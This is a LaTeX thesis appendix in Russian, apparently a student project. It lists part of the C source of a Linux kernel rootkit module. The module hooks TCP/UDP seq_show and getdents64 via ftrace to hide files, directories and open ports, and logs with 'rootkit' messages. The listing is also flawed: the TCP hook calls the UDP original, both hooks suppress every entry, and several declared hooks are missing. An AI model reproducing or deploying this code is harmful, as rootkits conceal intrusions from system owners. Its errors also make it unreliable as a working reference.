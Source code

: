 \chapter*{\hfill{}ПРИЛОЖЕНИЕ А\hfill{}}%
\label{cha:appendix1}
\section*{\hfill{}РЕАЛИЗАЦИЯ\hfill{}}%
\label{sec:realizatsiia}

\begin{lstlisting}[language=c,caption={Код программы}, label=lst:defsh]
#include "ftrace_helper.h"
#include <linux/dirent.h>
#include <linux/init.h>
#include <linux/kallsyms.h>
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/syscalls.h>
#include <linux/tcp.h>
#include <net/sock.h>

#define CURRENT_DIR "."
#define PARENT_DIR ".."

MODULE_LICENSE("GPL");
MODULE_AUTHOR("Ahmad Khalid Karimzai");
MODULE_DESCRIPTION("directories and files and open ports of tcp/v4 tcp/v6");

static asmlinkage long (*orig_tcp4_seq_show)(struct seq_file *seq,
												void *v);
static asmlinkage long (*orig_tcp6_seq_show)(struct seq_file *seq,
												void *v);
static asmlinkage long (*orig_udp6_seq_show)(struct seq_file *seq,
												void *v);
static asmlinkage long (*orig_udp4_seq_show)(struct seq_file *seq,
												void *v);
static asmlinkage long (*orig_getdents64)(const struct pt_regs *);

static asmlinkage long hook_tcp4_seq_show(struct seq_file *seq, void *v)
{
	struct inet_sock	*is;
	struct sock			*sk;
	long				ret;

	if (v != SEQ_START_TOKEN)
	{
		is = (struct inet_sock *)v;
		sk = (struct sock *)&is->sk;
		printk(KERN_DEBUG "rootkit: sport: %d, dport: %d\n",
				ntohs(is->inet_sport),
				ntohs(is->inet_dport));
			return (0);
	}
	ret = orig_udp4_seq_show(seq, v);
	return (ret);
}

static asmlinkage long hook_udp6_seq_show(struct seq_file *seq, void *v)
{
	struct inet_sock	*is;
	struct sock			*sk;
	long				ret;

	if (v != SEQ_START_TOKEN)
	{
		is = (struct inet_sock *)v;
		sk = (struct sock *)&is->sk;
		printk(KERN_DEBUG "rootkit: sport: %d, dport: %d\n",
				ntohs(is->inet_sport),
				ntohs(is->inet_dport));
			return (0);
	}
	ret = orig_udp6_seq_show(seq, v);
	return (ret);
}


\end{lstlisting}
